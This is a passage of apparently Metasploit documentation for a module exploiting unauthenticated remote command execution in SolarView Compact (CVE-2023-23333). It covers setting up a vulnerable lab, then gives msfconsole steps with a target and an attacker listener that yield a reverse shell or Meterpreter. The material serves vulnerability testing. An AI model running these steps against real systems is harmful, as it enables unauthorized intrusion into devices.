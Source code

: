 ```console
cd /home/www/
tar -zxvf/tmp/svcUpdateV600.fpk --wildcards 'html/*' 'version'
mv version /opt/svc
chown -R contec.root /home/www/html/*
chown contec.root /opt/svc/version
```
* You should have a `/home/www/html` directory with the vulnerable endpoint `downloader.php` and the version file stored in `/opt/svc`
* Create a dummy `data_zip.sh` shell script in `/usr/local/bin` which is called from `downloader.php` and will trigger the RCE.
```console
echo '#!/bin/bash' > /usr/local/bin/data_zip.sh; chmod 755 /usr/local/bin/data_zip.sh
```
* Add the `short_open_tag On` setting in `php.ini`. You should check your php version to ensure that you edit the right file.
```console
php -v
nano /etc/php/7.4/apache2/php.ini 
```
* Configure your apache server to run under the user context `contec` by editing  `/etc/apache2/envvars`.
* Update the lines with environment variable `export APACHE_RUN_USER=contec` and `export APACHE_RUN_GROUP=root`.
```console
nano /etc/apache2/envvars
systemctl start apache2
```
* Test the module using the verification steps below.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/solarview_unauth_rce_cve_2023_23333`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <ip-attacker>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter`
```
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > info

       Name: SolarView Compact unauthenticated remote command execution vulnerability.
     Module: exploit/linux/http/solarview_unauth_rce_cve_2023_23333
   Platform: PHP, Unix, Linux
       Arch: php, cmd, armle, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-05-15

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
```